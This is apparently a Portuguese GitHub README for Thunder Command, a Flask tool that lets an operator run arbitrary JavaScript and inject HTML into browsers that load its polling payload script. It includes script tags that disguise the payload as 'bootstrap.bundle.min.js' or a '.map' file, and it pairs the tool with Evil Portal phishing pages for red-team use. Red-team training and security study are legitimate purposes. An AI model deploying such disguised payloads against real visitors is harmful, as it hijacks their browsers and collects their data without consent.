





<h1 align="center" style="color:red">
  
  <br>
</h1>

<p align="center" style="font-size:12px">Referência ThunderCats: O Olho de Thundera é um item de poder, que concede visão além do mundo físico (Visão Além da Visão), permitindo que Lion-O amplia sua visão e revela perigos ocultos a grandes distâncias. <br><br></p>


# Thunder Command

Um sistema avançado de comunicação bidirecional entre servidor e cliente, permitindo que administradores executem comandos JavaScript e manipulem páginas web em tempo real, sem necessidade de atualização da página.

## Visão Geral

Thunder Command é uma ferramenta poderosa para controle remoto de páginas web que permite a administradores executar ações em tempo real em navegadores de clientes conectados. **A partir da versão 2.0, o sistema foi modernizado e utiliza exclusivamente HTTP polling** para comunicação, oferecendo maior compatibilidade e estabilidade. O sistema agora conta com persistência SQLite e interface administrativa aprimorada com HTMX.


## AVISO

#### Isenção de Responsabilidade: Uso Educacional e Estrutura Legal
As páginas de coleta fornecidas aqui são estritamente destinadas a fins educacionais e de treinamento. O objetivo é aumentar a conscientização sobre ameaças de segurança e ensinar os usuários a se proteger contra ataques de coleta.
Ao acessar essas páginas, você concorda em usá-las apenas dentro de uma estrutura legal e ética, em conformidade com as leis  e regulamentos aplicáveis em sua jurisdição.

#### Contexto de Estudos Técnicos
As páginas de coleta fornecidas neste repositório têm como objetivo apoiar profissionais de segurança em seus estudos e aprimoramento do cenário de cibersegurança, tudo dentro do contexto de construção de  um ambiente de simulação de ataque e defesa.

#### Limitação de Responsabilidade
O autor desta página se isenta de qualquer responsabilidade pelo uso malicioso ou ilegal dessas páginas de coleta. Qualquer pessoa que use essas páginas para fins não conformes à lei será a única responsável por suas ações. É altamente recomendável nunca usar essas técnicas para qualquer finalidade que não seja aprendizado e conscientização. O autor não monitora o uso dessas páginas após o download e transfere toda a responsabilidade ao usuário após o download.

---

<h1 align="center">
  
</h1>

## Principais Funcionalidades

- **Comunicação HTTP polling exclusiva** - Sistema modernizado sem dependências WebSocket
- **Execução remota de JavaScript segura** com estratégias inteligentes de execução
- **Manipulação DOM robusta** com múltiplas estratégias de seleção (ID, classe, CSS selector)
- **Injeção dinâmica de HTML** diretamente no corpo das páginas
- **Controle de visibilidade** avançado de elementos na página
- **Persistência de dados SQLite** com repositórios para clientes e comandos
- **Dashboard administrativo HTMX** com atualizações parciais e componentes modulares
- **Sistema de logging completo** com diferentes níveis (app, command, auth)
- **Captura de resultados configurável** com métricas de performance
- **Suporte JSONP** para arquivos locais e contorno de restrições CORS
- **Persistência de IDs de clientes** via localStorage com limpeza automática
- **Interface administrativa responsiva** com Bootstrap 5.3.0
- **Parser integrado de User-Agent** com ícones de navegador e sistema operacional
- **Design moderno e responsivo** com tema escuro customizado
- **Gráficos em tempo real** usando Chart.js para métricas de conexão
- **URLs dinâmicas de payload** com IDs e nomes personalizáveis
- **Tratamento robusto de erros** em manipulação DOM e execução JavaScript

## Possíveis Cenários

<h1 align="center">
  
</h1>

## Arquitetura do Sistema (v2.0)

O sistema utiliza **exclusivamente HTTP polling** para comunicação entre servidor e cliente, oferecendo máxima compatibilidade e estabilidade:



## Estrutura do Projeto (v2.2)

```
ThunderCommand/
├── app.py                                # Servidor Flask principal (arquitetura unificada)
├── CLAUDE.md                             # Guia técnico para Claude Code
├── docker-compose.yml                    # Configuração Docker para deploy
├── package.json                          # Scripts npm e dependências frontend
├── requirements.txt                      # Dependências Python
├── clear_db.py                           # Utilitário para resetar banco de dados
├── core/                                 # Módulos principais do sistema
│   ├── database/                         # Camada de persistência SQLite
│   │   ├── connection.py                 # Conexão e schema do banco
│   │   ├── client_repository.py          # Repositório de clientes
│   │   └── command_repository.py         # Repositório de comandos
│   └── utils/
│       ├── logger.py                     # Sistema de logging multi-nível (app, command, auth)
│       └── helpers.py                    # Utilitários auxiliares
├── exemples/                             # Exemplos de implementação
│   ├── example-class-id.html             # Exemplo targeting por classe/ID
│   ├── exemple-clear.html                # Exemplo de limpeza de comandos
│   └── exemple-wifi.html                 # Exemplo para captive portals
├── payload/                              # Scripts cliente para execução remota
│   ├── cmd.js                           # Cliente HTTP polling (atual)
│   └── cmd.js.new                       # Versão atualizada do cliente
├── static/                               # Recursos estáticos do aplicativo
│   ├── css/                             # Estilos e temas
│   │   ├── custom-dark-red.css          # Tema escuro principal
│   │   └── components/                  # Estilos por componente
│   ├── js/                              # Scripts JavaScript modulares
│   │   ├── app.js                       # Script principal da aplicação
│   │   ├── modules/                     # Módulos JavaScript organizados
│   │   │   ├── client-manager.js        # Gerenciamento de clientes
│   │   │   ├── command-handler.js       # Processamento de comandos
│   │   │   └── dashboard-ui.js          # Interface do dashboard
│   │   └── vendor/                      # Bibliotecas de terceiros
│   └── img/                             # Imagens e screenshots atualizados
├── templates/                           # Templates HTML modulares
│   ├── base.html                        # Template base
│   ├── admin_base.html                  # Base para páginas administrativas
│   ├── admin-dashboard.html             # Dashboard principal HTMX
│   ├── login.html                       # Autenticação
│   ├── server_to_client.html            # Página cliente
│   ├── partials/                        # Componentes HTMX reutilizáveis
│   └── components/                      # Componentes UI modulares
├── tests/                                # Suíte de testes
│   ├── unit/                            # Testes unitários
│   │   └── test_command_executor.py     # Testes de execução de comandos
│   └── integration/                     # Testes de integração
│       └── test_routes.py               # Testes de rotas
├── logs/                                # Logs da aplicação (auto-gerados)
│   ├── app.log                          # Logs gerais
│   ├── command.log                      # Logs de comandos
│   └── auth.log                         # Logs de autenticação
└── thunder_command.db                   # Banco de dados SQLite (auto-criado)
```

## Instalação e Configuração

### Pré-requisitos

- **Python 3.8+** (testado com Python 3.13)
- **Node.js** (opcional, para desenvolvimento frontend)
- **pip** (gerenciador de pacotes do Python)
- **npm** (gerenciador de pacotes do Node.js)

### Instalação Rápida

1. **Clone o repositório**:
```bash
git clone https://github.com/MrCl0wnLab/ThunderCommand.git
cd ThunderCommand
```

2. **Instale dependências Python**:
```bash
pip install -r requirements.txt
```

3. **Instale dependências frontend** (opcional):
```bash
npm install
```

4. **Execute o servidor**:

```bash
python app.py
```

**Modo desenvolvimento**:
```bash
FLASK_ENV=development python app.py
# ou
npm run dev
```

5. **Acesse a aplicação**:
   - Cliente: `http://localhost:5000/`
   - Administração: `http://localhost:5000/admin`
   - **Credenciais padrão**: `tandera` / `tandera`

### Configuração via Variáveis de Ambiente

Para melhorar a segurança, você pode configurar as credenciais de administrador e outras configurações via variáveis de ambiente:

```bash
# Configuração de segurança
export SECRET_KEY="sua_chave_secreta_aqui"
export ADMIN_USERNAME="seu_usuario_admin"
export ADMIN_PASSWORD="sua_senha_segura"

# Configuração de ambiente
export FLASK_ENV="development"  # ou "production"

# Executar aplicação
python app.py
```

### Execução com Docker

```bash
# Executar com docker-compose
docker-compose up

# Executar em background
docker-compose up -d

# Parar containers
docker-compose down
```

### Comandos de Desenvolvimento

```bash
# Executar aplicação
python app.py                    # Modo produção
FLASK_ENV=development python app.py  # Modo desenvolvimento
npm run dev                      # Modo desenvolvimento (alternativo)
npm start                        # Modo produção (alternativo)

# Executar testes
pytest                           # Todos os testes
pytest tests/unit/               # Apenas testes unitários
pytest tests/integration/        # Apenas testes de integração
pytest -v --tb=short            # Verbose com traceback curto

# Linting e qualidade de código
npm run lint                     # Verificar JavaScript
eslint static/js/**/*.js         # Lint específico

# Gerenciamento de banco de dados
python clear_db.py               # Limpar banco de dados
rm -f thunder_command.db         # Remover banco (alternativa)
sqlite3 thunder_command.db       # Inspeção manual do banco

# Docker (opcional)
docker-compose up                # Executar com Docker
```
### SCREENSHOTS

 






## Como Usar

### Painel de Administração

O painel administrativo moderno oferece várias opções para enviar comandos:

1. **Inject JavaScript**: Execute código JavaScript personalizado na página cliente
   ```javascript
   alert('Olá do servidor!');
   ```

2. **Inject HTML**: Adicione conteúdo HTML ao final da página cliente
   ```html
   <div class="notification">Nova mensagem importante!</div>
   ```

3. **Manipular Elemento**: Modifique elementos específicos por ID
   - **Adicionar**: Acrescenta conteúdo ao final do elemento
   - **Substituir**: Substitui completamente o conteúdo do elemento
   - **Inserir Abaixo/Acima**: Adiciona conteúdo depois/antes do elemento

4. **Visibilidade do Elemento**: Mostre ou oculte elementos por ID

5. **Manipular Head**: Modifique o cabeçalho da página
   - Adicione CSS externo ou inline
   - Adicione JavaScript externo ou inline
   - Adicione meta tags

### Gerenciamento de Clientes

- O painel exibe todos os clientes ativos com informações detalhadas em tempo real
- Detecção e exibição automática de navegador e sistema operacional
- **Todos os clientes utilizam conexão HTTP polling** (tipo de conexão unificado)
- Clientes inativos por mais de 30 minutos são automaticamente removidos
- Visualização detalhada de informações do cliente com métricas de performance
- Comandos podem ser direcionados a clientes específicos ou broadcast para todos
- **Dashboard atualizado via HTMX** com componentes modulares

### Histórico de Logs e Resultados

- O sistema mantém histórico dos últimos 1000 comandos enviados (configurável)
- **Persistência SQLite** para armazenamento permanente de logs e resultados
- Para cada comando são registrados: data/hora, tipo, conteúdo, cliente-alvo e resultados
- **Captura de resultados configurável** com métricas de execução detalhadas
- Interface HTMX para visualização em tempo real de logs e estatísticas
- Sistema de logging multi-nível (app, commands, auth) para debugging

## Integrando Payload JavaScript

Para integrar o sistema em páginas existentes, basta incluir o script cliente:

**A instância do payload.js garante a execução em uma página remota hospedada em outro servidor ou no cliente que baixa o arquivo .html em sua máquina.**

O sistema disponibiliza um esquema de **ID** e **nome de arquivo** dinâmicos, os arquivos de payload devem terminar com a extenção **.js** ou **.map**
- `http://server:5000/<int>/<string>.js`
- `http://server:5000/<int>/<string>.map`

Exemplos:
```html
<!-- Adicionar antes do fechamento do </body> -->
<script src="http://seu-servidor:5000/1/poc.js"></script>

<script src="http://seu-servidor:5000/12345/teste.js"></script>

<script src="http://seu-servidor:5000/99999/bootstrap.bundle.min.js"></script>

<script src="http://seu-servidor:5000/99999/bootstrap.bundle.min.map"></script>

<script src="http://seu-servidor:5000/2025/payload-campanha-redteam.js"></script>
```


O sistema irá:
1. Gerar automaticamente um ID único para o cliente (localStorage)
2. Iniciar polling HTTP automático para verificar novos comandos
3. Registrar cliente no servidor com informações de user-agent e IP
4. Executar comandos recebidos usando estratégias inteligentes de execução
5. Enviar resultados de volta ao servidor (se captura estiver habilitada)
6. Manter conexão ativa através de heartbeat polling

## Segurança

**Atenção**: Este sistema foi projetado para ambientes controlados e possui aspectos que devem ser considerados:

- O sistema permite a execução de código JavaScript arbitrário
- Use sempre autenticação para o painel administrativo
- Não utilize em ambientes públicos sem medidas de segurança adicionais

## Arquitetura Técnica (v2.0)

### Backend - Arquitetura Simplificada

**Servidor Principal (`app.py`)**:
- Arquivo único com todas as rotas e lógica de negócio
- Deploy simples e direto
- Fácil manutenção e compreensão

**Características**:
- **Comunicação exclusiva via HTTP polling** - sem dependências WebSocket
- **Persistência SQLite** com padrão Repository para clientes e comandos
- **API REST em Flask** com endpoints para polling, resultados e administração
- **Sistema de autenticação baseado em sessões** para o painel administrativo
- **Cache híbrido** - dados em memória para performance + persistência para durabilidade
- **Limpeza automática** de clientes inativos (configurável, padrão 30 minutos)
- **Sistema de logging estruturado** com diferentes níveis (app, command, auth)

### Cliente (Polling Inteligente)

- **HTTP polling exclusivo** com intervalos otimizados para performance
- **Suporte JSONP completo** para arquivos locais e contorno de CORS
- **Estratégias inteligentes de execução** - detecção automática de expressões vs declarações
- **Manipulação DOM segura** com múltiplas estratégias de seleção de elementos
- **Tratamento robusto de erros** com feedback detalhado para o servidor
- **Persistência de ID de cliente** via localStorage com geração automática
- **Envio de resultados configurável** com métricas de performance (tempo de execução)

### Frontend (Dashboard Moderno com HTMX)

- **Interface Bootstrap 5.3.0** com tema escuro personalizado
- **Sistema de build npm/webpack** para desenvolvimento modular
- **Componentes HTMX modulares** para atualizações parciais sem JavaScript complexo
- **Gráficos Chart.js em tempo real** para métricas de conexão e atividade
- **Editor de código integrado** para inserção de JavaScript e HTML
- **Parser de User-Agent avançado** com ícones de navegadores e sistemas operacionais
- **Feedback visual em tempo real** sobre estado dos clientes e execução de comandos
- **Sistema de toggle configurável** para captura de resultados
- **Arquitetura de template componentizada** (`partials/` + `components/`) para manutenibilidade
- **JavaScript modular** organizado em `static/js/modules/` para melhor manutenção

## Melhorias e Correções Recentes

### v2.2 - Simplificação Arquitetural
- **🔥 ARQUITETURA UNIFICADA**: Consolidação completa em `app.py` único para manutenção simplificada
- **Deploy simplificado**: Apenas `python app.py` necessário para executar
- **Suporte Docker**: `docker-compose.yml` para deploy em containers
- **Compatibilidade preservada**: Todas as funcionalidades v2.x mantidas

### v2.1 - Limpeza Completa WebSocket/Socket.IO
- **Remoção total**: Eliminação completa de referências WebSocket/Socket.IO
- **HTTP polling puro**: Sistema 100% baseado em polling HTTP
- **Performance otimizada**: Redução de dependências e complexidade

### v2.0.1 - Correção Crítica Injeção HTML
- **🔧 CORREÇÃO CRÍTICA**: Bug onde comandos "Inject HTML" mostravam código JavaScript visível
- **Execução correta**: Cliente agora executa JavaScript adequadamente para comandos HTML
- **Interface limpa**: Conteúdo HTML renderizado sem código wrapper

### Funcionalidades Principais
- **Execução JavaScript remota** com tratamento de erros robusto
- **Manipulação DOM multi-estratégia** (ID → classe → CSS selector)
- **Persistência SQLite** com padrão Repository para escalabilidade
- **Dashboard HTMX responsivo** com atualizações em tempo real
- **Sistema de logging estruturado** (app, command, auth) para debugging
- **Suporte Docker** para deploy simplificado
- **Configuração via variáveis de ambiente** para segurança

## Casos de Uso

- **Pesquisa em Segurança**: Análise de comportamento de navegadores e vulnerabilidades web
- **Educação em Cibersegurança**: Demonstração de técnicas de controle remoto para fins didáticos
- **Testes de Penetração**: Validação de defesas contra ataques de controle remoto
- **Portal Captive Educacional**: Integração com [Evil Portal](https://github.com/MrCl0wnLab/BR-EvilPortal-HTML-Files) para treinamentos
- **Desenvolvimento Web**: Modificação dinâmica de páginas em ambientes controlados
- **Prototipagem Rápida**: Testes A/B e adaptações de interface em tempo real
- **Monitoramento de Aplicações**: Coleta de dados de uso em ambientes de teste

## Troubleshooting

### Problemas Comuns

#### Erro de Porta em Uso
```bash
# Verificar processos na porta 5000
lsof -i :5000
# Matar processo se necessário
pkill -f "python app.py"
```

#### Cliente Não Conecta
```bash
# Testar conectividade
curl http://localhost:5000/
curl http://localhost:5000/command?client_id=test

# Verificar logs
tail -f logs/app.log
```

#### Problemas de Permissão no Banco
```bash
# Resetar banco de dados
python clear_db.py
# ou
rm -f thunder_command.db && python app.py
```

#### Docker Não Funciona
```bash
# Verificar se Docker está rodando
docker --version
# Rebuild containers
docker-compose down && docker-compose up --build
```


<h1 align="center" style="color:red">
  
  <br>
</h1>


## Desenvolvido por 🛠️ <a name="autores"></a>

- **Cleiton P. (MrCl0wn Security Lab)** - [Twitter](https://twitter.com/MrCl0wnLab), [Git](https://github.com/MrCl0wnLab), [Blog](https://blog.mrcl0wn.com/)


---

## Contribuições ✨ <a name="contribuicoes"></a>
Contribuições de qualquer tipo são bem-vindas!

<a href="https://github.com/MrCl0wnLab/ThunderCommand/graphs/contributors">
  
</a>

---

### Changelog v2.2

#### v2.2.0 (Janeiro 2025) - Simplificação Arquitetural
- **🔥 SIMPLIFICAÇÃO TOTAL**: Remoção da arquitetura híbrida, consolidação em `app.py` único
- **Arquivos removidos**: `run.py`, diretório `app/` (application factory), diretório `config/`
- **Scripts atualizados**: package.json agora usa apenas `python app.py`
- **Documentação simplificada**: Guias e instruções focados em uma única forma de execução
- **Manutenibilidade**: Redução da complexidade, mais fácil para novos desenvolvedores
- **Funcionalidades mantidas**: Todas as funcionalidades core preservadas

#### v2.1.0 (Janeiro 2025) - Limpeza Completa WebSocket/Socket.IO
- **🔥 REMOÇÃO TOTAL**: Eliminação completa de todas as referências e vestígios de Socket.IO/WebSocket
- **Endpoints removidos**: `/socket.io/` routes completamente removidos (não retornam mais HTTP 410)
- **Database schema**: Tabela `socket_clients` removida do schema de inicialização
- **Client-side cleanup**: Todas as referencias WebSocket removidas dos templates e JavaScript
- **CSS cleanup**: Estilos `.badge-websocket` removidos, interface 100% polling
- **Logging cleanup**: `websocket_logger` e `log_websocket_event()` removidos
- **Impacto**: Sistema agora é puramente HTTP polling sem código legado

#### v2.0.1 (Janeiro 2025) - Patch Crítico
- **🔧 CORREÇÃO CRÍTICA**: Bug de injeção HTML onde wrapper JavaScript aparecia visível na página
- **Arquivo alterado**: `payload/cmd.js` - Método `executeCommand()` agora executa JavaScript para comandos HTML
- **Impacto**: Comandos "Inject HTML" agora mostram apenas o conteúdo, sem código JavaScript visível

#### v2.0.0 (Janeiro 2025) - Lançamento Principal
- **Principais mudanças**: Migração completa para HTTP polling, remoção do WebSocket, persistência SQLite, HTMX
- **Arquitetura**: Sistema Flask unificado (`app.py`)
- **Frontend**: Sistema de build npm/webpack, componentes modulares
- **Testes**: Framework pytest implementado
- **Compatibilidade**: Quebra compatibilidade com versões anteriores que dependiam de Socket.IO
- **Status**: Versão estável para produção em ambientes controlados